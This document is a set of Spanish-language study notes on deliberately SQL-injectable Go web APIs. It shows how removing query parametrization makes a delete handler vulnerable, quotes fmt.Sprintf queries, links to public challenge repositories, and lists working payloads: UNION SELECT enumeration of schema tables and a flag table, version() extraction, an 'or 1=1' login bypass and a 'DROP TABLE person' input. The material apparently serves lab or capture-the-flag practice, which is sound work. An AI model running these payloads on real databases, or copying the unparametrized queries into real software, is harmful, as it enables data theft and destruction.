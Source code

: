 

- Paylodads de gemini

En resumen:

* Tu API es vulnerable, pero la forma en que lo es, no permite que los payloads clásicos de OR 1=1 (que son para columnas de texto o cuando el id se encierra entre comillas) funcionen directamente con una columna INTEGER sin comillas.

* PostgreSQL es demasiado "inteligente" (o estricto) para el tipo de inyección que intentamos hacer. Intenta convertir el texto inyectado (1 OR 1=1 --) a un entero antes de evaluarlo, y falla.

* Además, el uso de ; para encadenar comandos (DROP TABLE) generalmente no funciona con QueryRowContext o ExecContext por defecto en los drivers de Go, por razones de seguridad. Estos métodos están diseñados para ejecutar una sola declaración.


query := fmt.Sprintf(`
        SELECT id, name, description, price, created_at, updated_at 
        FROM instruments WHERE id = %s`, id)  **No funciona**

query := fmt.Sprintf(`
        SELECT id, name, description, price, created_at, updated_at
        FROM instruments WHERE id = '%s'`, id) // ¡AHORA SÍ CON COMILLAS!



La clave para que tu función DeleteInstrument sea vulnerable de la misma manera que DeleteUserSQLi es eliminar la parametrización de la consulta SQL y concatenar directamente la entrada del usuario.

El problema con tu función DeleteInstrument original es que usa $1 y pasa id como un argumento separado a ExecContext. Esto hace que la base de datos trate id como un valor seguro, impidiendo la inyección.

La función DeleteUserSQLi funciona porque (asumiendo que app.models.User.DeleteUserSQLi construye la consulta concatenando) toma el id directamente del URL sin sanearlo ni parametrizarlo.



Diferentes comportamientos

definicion de la base de datos

- ID como texto
- Id como varchar
- Id como int  (serial)
- Id como UUID  uuid_generate_v4()


sql-injection-dummy id serial


## SQL Injection in SELECT Sprintf


	query := fmt.Sprintf("SELECT * FROM juice WHERE id = '%s'", id)

gingonic ==> https://github.com/KaanSK/golang-sqli-challenge/blob/main/SOLUTION.MD
r.GET("/juice/:id", service.Get)

    UNION SELECT null;--
    UNION SELECT null,null;--
    UNION SELECT null,null,null;--
    UNION SELECT 1,table_name FROM information_schema.tables WHERE table_schema='public'
    UNION SELECT 1,column_name FROM information_schema.columns WHERE table_name='super_secret_table'
    UNION SELECT 1,flag FROM super_secret_table


http "localhost:8080/user?id=id=1)) UNION ALL SELECT NULL,version(),current_database(),NULL,NULL,NULL,NULL,NULL--"
http "localhost:8080/user?id=1)) = ((1)) UNION ALL SELECT NULL,version(),current_database(),NULL,NULL,NULL,NULL,NULL--"


gingonic ==> https://github.com/wahyuhadi/gorm-sqlInjection/
router.GET("/user", GetUser)

        err := dbms.First(&user, id) // Sql Injection in this line /user?id=id=1)) or 1=1--


julienschmidt/httprouter
https://github.com/feedlyy/sql-injection-test/
err = db.Get(&person, fmt.Sprintf("SELECT * FROM person WHERE id = %s", id))
        
        drop table person: SELECT name, email FROM users WHERE ID = '10';DROP TABLE person--*/



https://github.com/santoshkavhar/SQL-Injection/  (mysql)

	query = fmt.Sprintf("SELECT username, password FROM users1 where username='%s' and password='%s';", username, password)

        SELECT  username, password, FROM users1 where username='' or 1=1 #'' and password='' or 1=1 #'';


